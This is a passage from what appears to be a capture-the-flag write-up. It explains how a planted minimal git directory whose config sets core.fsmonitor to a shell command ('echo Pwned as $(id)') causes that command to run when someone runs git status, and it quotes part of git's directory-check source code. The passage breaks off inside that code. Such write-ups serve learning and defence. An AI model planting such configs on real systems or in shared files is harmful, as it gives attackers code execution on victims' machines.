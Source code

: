 There seems to be a fairly complete explanation here: [2022_git_buried_bare_repos_and_fsmonitor_various_abuses.md](https://github.com/justinsteven/advisories/blob/main/2022_git_buried_bare_repos_and_fsmonitor_various_abuses.md), but it's a bit long and I haven't read it yet.

In short, if you replace the gitconfig with the above content and then use `git status`, the command after fsmonitor will be executed.

However, the difficulty of this challenge is not in this, but in how to throw a git repo onto the chall server.

When you use `git init`, a `.git` folder will be added to the directory, which contains:

1. HEAD
2. config
3. description
4. hooks/
5. info/
6. objects/
7. refs/

However, the command during scp is `server:*`, so:

1. Hidden files starting with . will not be matched
2. Folders will not be downloaded because -r is not used

After discussing with my teammates for a while, I found that if you adjust the config, you can reduce it to only four files and you don't need the `.git` folder:

```
[core]
    repositoryformatversion = 0
    bare = false
    worktree = ./
    fsmonitor = "echo \"Pwned as $(id)\">&2; false"
```

The file structure is as follows:

```
drwxr-xr-x  6 huli  staff  192  6 14 22:00 .
drwxr-xr-x  3 huli  staff   96  6 14 21:57 ..
-rw-r--r--  1 huli  staff   23  6 14 21:57 HEAD
-rw-r--r--  1 huli  staff  115  6 14 21:59 config
drwxr-xr-x  4 huli  staff  128  6 14 21:57 objects
drwxr-xr-x  4 huli  staff  128  6 14 21:57 refs
```

Executing `git status` in the subdirectory will run the fsmonitor command.

However, the objects and refs folders must exist. I tried to replace them with files, but the check failed. Later, I went to look at the git source code to see how it was checked. The relevant code is here:

https://github.com/git/git/blob/master/setup.c#L341

``` c
/*
 * Test if it looks like we're at a git directory.
 * We want to see:
 *
 *  - either an objects/ directory _or_ the proper
 *    GIT_OBJECT_DIRECTORY environment variable
 *  - a refs/ directory
 *  - either a HEAD symlink or a HEAD file that is formatted as
 *    a proper "ref:", or a regular file HEAD that has a properly
 *    formatted sha1 object name.
 */
int is_git_directory(const char *suspect)
{
	struct strbuf path = STRBUF_INIT;
	int ret = 0;
```